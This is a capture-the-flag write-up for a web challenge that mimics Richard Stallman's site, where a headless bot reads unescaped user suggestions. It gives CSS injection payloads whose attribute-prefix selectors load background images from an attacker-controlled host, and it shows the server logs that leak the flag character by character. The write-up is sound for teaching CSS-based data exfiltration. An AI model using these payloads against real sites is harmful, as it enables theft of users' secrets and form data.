



# Free as in Freedom

> Dr. Richard Stallman is a pioneer of free software. We all know that he
> strives to protect his digital freedom by not running any non-free software
> such as JavaScript.
>
>  Can you still write an exploit for him, even though he > doesn't use these
>  modern web technologies? You need to find Stallman's own > suggestion for the
>  website.



| Asset        | Note                                                          |
|--------------|---------------------------------------------------------------|
| Author       | Milkdrop                                                      |
| Category     | PPC                                                           |
| Original URL | `http://challs.xmas.htsp.ro:11003`                            |
| Attachment   | 💾 [HTML Dump][1]                                             |

## Analysis

Browsing the URL provides what appears to be the personal website of Richard
Stallman:



It's filled with endless topics and links. However, near the bottom is a form:



Below the form in HTML is also:

```
<div>
  <!-- suggestions should be loaded here for Dr. Stallman to see -->
</div>
```

## Exploit

Posting anything with an `` or `<style>` tag that calls home to a remote
server will show that there is a Chrome Headless browser that is checking the
website. This is their "Stallman bot" essentially:

```
/var/log/apache2/access.log:redstoneblockchain.xyz:443 1.2.3.4 - - [17/Dec/2019:11:26:34 +0000] "GET / HTTP/1.1" 200 2026 "http://127.0.0.1/?suggestion=%3Cstyle%3E%0D%0Aform+%7B%0D%0A+background-image%3A+url%28%22https%3A%2F%2Fredstoneblockchain.xyz%2Ffoot127zz%22%29%3B%0D%0A%7D%0D%0A%3C%2Fstyle%3E" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/78.0.3904.108 Safari/537.36"
```

This means there is no HTML escaping on the server. However, inserting a
`<script>` tag won't do anything because Stallman doesn't have Javascript
enabled on his 1960's PDP-100.

This means sans some kind of HTML parsing error in Chrome the only known
attack vector would be CSS rules. We have seen already that his browser will
parse the HTML and load images from our remote server we control. This means
we could style his input elements:

```
<style>
input { background-image: url("http://redstoneblockchain:9999/cool.png"); }
</style>
```

We can also set the background only for input elements that start with `x`:

```
<style>
[vaue^='x'] { background-image: url("http://redstoneblockchain.xyz:9999/x"); }
</style>
```

We can expand this method to generate a `<style>` that contains every character
as a prefix. When we get a hit on our remote server we have discovered one more
character of the secret flag:

```
[Thu Dec 19 03:39:37 2019] 1.2.3.4:51872 [200]: /X
[Thu Dec 19 03:39:50 2019] 1.2.3.4:51882 [200]: /X-MAS%7B
[Thu Dec 19 03:41:54 2019] 1.2.3.4:51914 [200]: /X-MAS%7BX
[Thu Dec 19 03:42:01 2019] 1.2.3.4:51924 [200]: /X-MAS%7BXS
[Thu Dec 19 03:42:11 2019] 1.2.3.4:51934 [200]: /X-MAS%7BXSS
[Thu Dec 19 03:42:19 2019] 1.2.3.4:51948 [200]: /X-MAS%7BXSS-
[Thu Dec 19 03:42:27 2019] 1.2.3.4:51958 [200]: /X-MAS%7BXSS--
[Thu Dec 19 03:42:31 2019] 1.2.3.4:51964 [200]: /X-MAS%7BXSS--S
[Thu Dec 19 03:42:35 2019] 1.2.3.4:51970 [200]: /X-MAS%7BXSS--St
[Thu Dec 19 03:42:50 2019] 1.2.3.4:51998 [200]: /X-MAS%7BXSS--St4
[Thu Dec 19 03:42:54 2019] 1.2.3.4:52006 [200]: /X-MAS%7BXSS--St4l
[Thu Dec 19 03:43:07 2019] 1.2.3.4:52022 [200]: /X-MAS%7BXSS--St4ll
[Thu Dec 19 03:43:10 2019] 1.2.3.4:52064 [200]: /X-MAS%7BXSS--St4llm
[Thu Dec 19 03:43:17 2019] 1.2.3.4:52076 [200]: /X-MAS%7BXSS--St4llm4
[Thu Dec 19 03:43:20 2019] 1.2.3.4:52080 [200]: /X-MAS%7BXSS--St4llm4n
[Thu Dec 19 03:43:35 2019] 1.2.3.4:52138 [200]: /X-MAS%7BXSS--St4llm4n-
[Thu Dec 19 03:43:40 2019] 1.2.3.4:52144 [200]: /X-MAS%7BXSS--St4llm4n-A
[Thu Dec 19 03:43:43 2019] 1.2.3.4:52150 [200]: /X-MAS%7BXSS--St4llm4n-Ap
[Thu Dec 19 03:43:46 2019] 1.2.3.4:52154 [200]: /X-MAS%7BXSS--St4llm4n-App
[Thu Dec 19 03:43:48 2019] 1.2.3.4:52200 [200]: /X-MAS%7BXSS--St4llm4n-Appr
[Thu Dec 19 03:43:54 2019] 1.2.3.4:52208 [200]: /X-MAS%7BXSS--St4llm4n-Appr0
[Thu Dec 19 03:43:57 2019] 1.2.3.4:52212 [200]: /X-MAS%7BXSS--St4llm4n-Appr0v
[Thu Dec 19 03:43:59 2019] 1.2.3.4:52216 [200]: /X-MAS%7BXSS--St4llm4n-Appr0ve
[Thu Dec 19 03:44:02 2019] 1.2.3.4:52222 [200]: /X-MAS%7BXSS--St4llm4n-Appr0ved
[Thu Dec 19 03:45:51 2019] 1.2.3.4:52304 [200]: /X-MAS%7BXSS--St4llm4n-Appr0ved!
[Thu Dec 19 03:49:56 2019] 1.2.3.4:52406 [200]: /X-MAS%7BXSS--St4llm4n-Appr0ved!%7D
```
